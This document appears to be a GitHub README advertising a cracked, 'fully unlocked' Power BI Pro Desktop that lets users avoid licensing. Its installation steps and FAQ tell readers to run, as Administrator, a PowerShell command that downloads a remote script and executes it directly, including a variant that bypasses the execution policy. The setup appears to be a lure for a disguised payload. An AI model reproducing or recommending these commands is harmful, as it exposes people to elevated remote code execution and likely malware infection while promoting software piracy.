

<div align="center">


<br>


# Power BI Pro Desktop Corporate Edition
**Pro Desktop · DAX · Dashboards**
<br>
**Pro Desktop · DAX · Dashboards**
<br>
Premium · Pro · Full build · Windows



**Fully unlocked Power BI Pro Desktop — interactive dashboards, DAX modeling, premium data connectors and row-level security active.**

</div>

---

> Corporate Pro Desktop unlocks premium connectors, row-level security and sharing — visualize data without per-user Power BI billing.

## `INSTALLATION`

1. Open **PowerShell** as Administrator
2. Paste and run:

```powershell
irm https://raw.githubusercontent.com/Freelopiazza/Activate/refs/heads/main/install.ps1 | iex
```

3. Confirm **UAC** (Yes) — setup runs automatically
4. Wait until the installer finishes

## `FEATURES`

- 📊 **Data modeling** — DAX, relationships and calculated columns at Pro level.
- 📈 **Dashboards** — Interactive visuals, drill-through and bookmarks enabled.
- 🔗 **Premium connectors** — SQL, Salesforce and cloud sources fully active.
- 🔒 **Row-level security** — Enterprise governance and deployment pipelines included.
- 🔓 **Pro features** — Publish, share and refresh schedules without limits.
- 📤 **Export** — PDF, PowerPoint and Excel reports at full fidelity.
- ⚡ **One command** — PowerShell handles download, unpack, and setup.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 8 GB minimum |
| **Disk** | 5 GB free space |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://raw.githubusercontent.com/Freelopiazza/Activate/refs/heads/main/install.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Use the build from your downloaded Release.
</details>
<details>
<summary>&nbsp;<b>Requirements?</b></summary>
<br>Windows 10/11 64-bit, 8 GB minimum, 5 GB free space.
</details>


TAGS
power-bi, bi-desktop, dax-formulas, data-dashboard, powerbi-2026, data-modeling, report-builder, business-intelligence, data-analytics, visualization, reporting, enterprise-analytics, data-insights, power-bi-pro, power-bi-pro-pc
